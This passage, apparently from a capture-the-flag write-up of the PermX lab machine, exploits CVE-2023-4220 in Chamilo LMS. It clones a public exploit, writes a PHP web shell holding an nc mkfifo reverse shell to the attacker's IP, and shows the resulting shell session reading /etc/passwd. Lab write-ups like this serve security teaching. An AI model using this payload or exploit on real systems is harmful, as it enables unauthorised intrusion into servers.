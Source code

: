 Let's see this in action!
  

```
git clone https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit.git
```
  
## Weaponization

The goal I'm aiming for is a reversed shell; An open session with the host that allows me to run whatever command I want. To do this I'm using my own variety of a "nc mkfifo" shell from https://revshells.com, spawned from PHP with passthru.

Creating a shell file, including bash voodoo to get my local IP address in there:


```
cat <<___EOF___>myshell.php
<?php passthru("mkfifo /tmp/0b1; nc $(ip -4 -o a sh dev tun0 | awk '{print $4}' | sed 's@/.*$@@') 1667 < /tmp/0b1 | /bin/bash > /tmp/0b1"); ?>
___EOF___
```
  
Notice that I'm using port 1667 to get my shell. Now run exploit:


```
# ./CVE-2023-4220.sh -f ./myshell.php -h http://lms.permx.htb/ -p 1667
   
The file has successfully been uploaded.
  
#    Use This leter For Interactive TTY ;)  
#    python3 -c 'import pty;pty.spawn("/bin/bash")'
#    export TERM=xterm
#    CTRL + Z
#    stty raw -echo; fg
   
# Starting Reverse Shell On Port 1667 . . . . . . .
   
listening on [any] 1667 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.23] 58176
script -qc /bin/bash /dev/null
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ whoami
<ilo/main/inc/lib/javascript/bigupload/files$ whoami                     
www-data
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ pwd
pwd
/var/www/chamilo/main/inc/lib/javascript/bigupload/files
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ uname -a
<o/main/inc/lib/javascript/bigupload/files$ uname -a                     
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ cat /etc/passwd | grep 'sh$' 
<ript/bigupload/files$ cat /etc/passwd | grep 'sh$'                      
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```
